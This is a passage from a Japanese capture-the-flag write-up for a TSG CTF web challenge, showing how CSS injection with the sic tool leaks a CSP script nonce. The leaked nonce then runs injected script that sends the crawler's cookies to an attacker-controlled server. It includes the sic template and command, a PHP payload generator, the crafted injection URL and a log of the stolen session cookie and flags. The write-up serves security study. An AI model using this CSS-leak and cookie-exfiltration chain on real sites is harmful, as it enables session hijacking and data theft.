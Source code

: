 この記事中で紹介されている [d0nutptr/sic](https://github.com/d0nutptr/sic) というツールを使って nonce を特定し、好きな JavaScript コードを実行させてみましょう。

まず属性セレクタによる属性値の読み取り用のテンプレートを用意し、`sic` を立ち上げます。

```
$ cat template
script[nonce^="{% raw %}{{:token:}}{% endraw %}"] { background: url({% raw %}{{:callback:}}{% endraw %}); }
$ sudo sic/target/release/sic -p 8080 --ph "http://(攻撃者のサーバ):8080" --ch "http://(攻撃者のサーバ):8081" -t template
```

続いて、特定した nonce を使って JavaScript コードを実行させるための Web サーバを `php -S 0.0.0.0:8082` で立ち上げます。

`index.html`

```html
<script>
let i = 0;
let f = () => {
  if (i >= 20) {
    location.href = "go.php";
  } else {
    i++;
    // nonce.txt は人間が編集するので、2 秒程度待ってもらう
    // クローラは waitUntil: 'networkidle0' という設定なので、定期的に log.php にアクセスさせる
    (new Image).src = 'log.php?' + i;
    setTimeout(f, 200);
  }
};
setTimeout(f, 200);
</script>
```

`go.php`

```php
<?php
$nonce = trim(file_get_contents('nonce.txt'));
$payload = "<script nonce='${nonce}'>let iframe=document.createElement('iframe');iframe.src='http://(攻撃者のサーバ):8082/log.php?' + document.cookie;document.body.append(iframe);</script>";
$payload = urlencode($payload);

echo "<script>location.href='http://(問題サーバ)/?q=${payload}'</script>";
```

`http://(問題サーバ)/?q=%3Cstyle%3E@import%20url(http://(攻撃者のサーバ):8080/staging?len=32);%3C/style%3E%3Ciframe%20src=%22http://(攻撃者のサーバ):8082%22%3E%3C/iframe%3E` をクローラに巡回させ、nonce が特定でき次第すぐに `nonce.txt` を書き換えます。しばらくすると以下のようなログが流れ、フラグが得られました。

```
[Sun May  5 04:09:23 2019] (問題サーバ):36884 [200]: /log.php?PHPSESSID=68106666f62588dadbe7edc95581ec89;%20flag1=TSGCTF{dEv1L_15_1n_7he_DE741l2};%20flag2=TSGCTF{r3CuR51v3_1MP0R7_73cHN1Kw3_15_50_k3WL}
```

```
TSGCTF{r3CuR51v3_1MP0R7_73cHN1Kw3_15_50_k3WL}
```
